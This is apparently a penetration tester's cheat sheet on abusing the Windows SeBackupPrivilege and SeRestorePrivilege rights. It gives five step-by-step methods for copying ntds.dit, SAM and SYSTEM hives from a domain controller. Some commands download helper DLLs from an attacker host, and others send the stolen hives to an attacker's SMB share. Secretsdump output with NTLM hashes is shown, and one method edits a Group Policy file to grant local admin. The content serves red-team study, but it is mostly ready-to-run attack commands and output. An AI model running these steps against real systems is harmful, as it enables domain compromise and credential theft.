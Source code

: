 ```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2025-8-1
tags: ["Credential Dumping", "File System", "SeBackupPrivilege", "SeRestorePrivilege", "Windows", "Backup Operators", "Diskshadow", "SAM", "SECURITY", "SYSTEM", "ntds.dit"]
---
```


### Abuse #1: Robocopy

```console
robocopy /b <TARGET_DIR_PATH> <DEST_DIR> <TARGET_FILE>
```

---

### Abuse #2: Use Helper DLLs

#### 1. Import Helper Modules

```console
import-module .\SeBackupPrivilegeCmdLets.dll
```

```console
import-module .\SeBackupPrivilegeUtils.dll
```

#### 2. Copy Target File

```console
Copy-FileSeBackupPrivilege '<TARGET_FILE_PATH>' 'C:\ProgramData\<TARGET_FILE>'
```

```console {class="sample-code"}
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

<small>*Ref: [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)*</small>
<br>
<small>*Ref: [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)*</small>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh File

```console
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

#### 2. Convert to DOS Format

```console
unix2dos vss.dsh
```

#### 3. Upload Helpers

```console
iwr http://<LOCAL_IP>:<LOCAL_PORT>/SeBackupPrivilegeCmdLets.dll -o C:\Programdata\SeBackupPrivilegeCmdLets.dll
```

```console
iwr http://<LOCAL_IP>:<LOCAL_PORT>/SeBackupPrivilegeCmdLets.dll -o C:\Programdata\SeBackupPrivilegeUtils.dll
```

```console
iwr http://<LOCAL_IP>:<LOCAL_PORT>/vss.dsh -o C:\Programdata\vss.dsh
```

#### 4. Import Helper Modules

```console
import-module .\SeBackupPrivilegeCmdLets.dll
```

```console
import-module .\SeBackupPrivilegeUtils.dll
```

#### 5. Run vss.dsh

```console
diskshadow /s C:\ProgramData\vss.dsh
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s C:\ProgramData\vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/24/2024 5:54:17 PM

-> set context persistent nowriters
-> set metadata c:\windows\tasks\test.cab
-> set verbose on
-> add volume c: alias test
-> create

Alias test for shadow ID {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {fa58db67-4686-4a2b-8f7e-2bc95503aa4a} set as environment variabl
Inserted file Manifest.xml into .cab file test.cab
Inserted file DisAF3.tmp into .cab file test.cab

Querying all shadow copies with the shadow copy set ID {fa58db67-4686-4a2b-8f7e-2bc95503aa4a}

        * Shadow copy ID = {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491}               %test%
                - Shadow copy set: {fa58db67-4686-4a2b-8f7e-2bc95503aa4a}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 9/24/2024 5:54:18 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %test% x:
-> %test% = {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491}
The shadow copy was successfully exposed as x:\.
->
```

#### 6. Host a SMB Server (In Linux)

```console
impacket-smbserver share . -smb2support
```

```console {class="sample-code"}
$ impacket-smbserver share . -smb2support                                  
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
---[SNIP]---
```

#### 7. Copy to Local Linux

```console
net use \\<LOCAL_IP>\share
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net use \\10.10.14.31\share
The command completed successfully.
```

```console
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\<LOCAL_IP>\share\ntds.dit
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\10.10.14.31\share\ntds.dit
```

```console
reg.exe save hklm\system \\<LOCAL_IP>\share\system
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg.exe save hklm\system \\10.10.14.31\share\system
```

#### 8. Secrets Dump

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
---[SNIP]---
[*] Cleaning up...
```

---

### Abuse #4: BackupOperatorToDA

#### 1. Host a SMB Server (In Linux)

```console
impacket-smbserver share . -smb2support
```

#### 2. Copy Hives

```console
.\BackupOperatorToDA.exe -t \\<TARGET_COMPUTER> -u '<USER>' -p '<PASSWORD>' -d <DOMAIN> -o \\<LOCAL_IP>\share\
```

```console {class="sample-code"}
PS C:\programdata> .\BackupOperatorToDA.exe -t \\DC01 -u user -p 'password' -d example.com -o \\10.10.14.2\share\
Making user token
Dumping SAM hive to \\10.10.14.2\share\SAM
Dumping SYSTEM hive to \\10.10.14.2\share\SYSTEM
Dumping SECURITY hive to \\10.10.14.2\share\SECURITY
```

#### 3. Secrets Dump

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

<small>*Ref: [BackupOperatorToDA.exe](https://github.com/mpgn/BackupOperatorToDA)*</small>

---

### Abuse #5: Modify GptTmpl.inf

#### 1. Copy GptTmpl.inf

```console
robocopy /b "\\<DOMAIN>\sysvol\<DOMAIN>\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" "C:\ProgramData" GptTmpl.inf
```

#### 2. Check Target User SID

```console
. .\PowerView.ps1
```

```console
Get-DomainUser | Select-Object samaccountname, objectsid
```

#### 3. Add Target User to Local Admin Group 

```console
# Append to GptTmpl.inf
[Group Membership]
*<SID>__Memberof = *S-1-5-32-544
*<SID>__Members =
*S-1-5-32-544__Memberof =
*S-1-5-32-544__Members = *<SID>
```

#### 4. Overwrite Original GptTmpl.inf

```console
robocopy /b "C:\Programdata" "\\<DOMAIN>\sysvol\<DOMAIN>\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf
``` 

#### 5. Wait

```console
# Wait or force gpupdate (if possible)
gpupdate /force
```

#### 6. Secrets Dump

```console
impacket-secretsdump '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>' -dc-ip <DC_IP>
```